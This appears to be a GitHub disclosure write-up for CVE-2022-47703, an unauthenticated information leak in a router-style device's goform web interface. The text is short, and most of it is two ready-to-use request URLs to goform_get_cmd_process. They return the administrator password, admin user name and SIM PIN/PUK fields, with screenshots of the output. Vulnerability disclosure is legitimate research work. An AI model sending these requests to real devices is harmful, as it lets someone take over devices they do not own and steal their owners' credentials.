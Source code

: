 CVE-2022-47703

To perform this attack you may need to set the devmode to 6 if it is not by default (which I beleive it is) as seen below.          

![image](https://user-images.githubusercontent.com/25066959/208161200-d0be214e-ab70-4853-b68b-d9af9d21e5ec.png)

Once this is done it is possible to read arbitrary values from the configuration table in the device NVRAM.          

A request like the following will read the value of the admin_Password field. With this request you will be able to retreive the administrator password for the device unauthenticated.         

This can be viewed in the broswer or burp for instance, as seen below. 

```
http://192.168.199.1/goform/goform_get_cmd_process?cmd=admin_Password&multi_data=1
```
![image](https://user-images.githubusercontent.com/25066959/208161010-ddce8cc0-7ab4-40c9-83db-cfbf57907631.png)


![image](https://user-images.githubusercontent.com/25066959/208161155-dd37a5bb-87c2-4d70-9e8a-3f1b821c23e3.png)

```
http://192.168.199.1/goform/goform_get_cmd_process?isTest=false&cmd=modem_main_state,puknumber,
pinnumber,psw_fail_num_str,login_lock_time,admin_user,admin_Password&multi_data=1&_=0
```
![image](https://user-images.githubusercontent.com/25066959/208161411-67c7d073-375f-48e1-84f3-9f6264a0b765.png)


![image](https://user-images.githubusercontent.com/25066959/208161356-7c9103ce-5543-4b89-9ebf-f84282c2d26f.png)

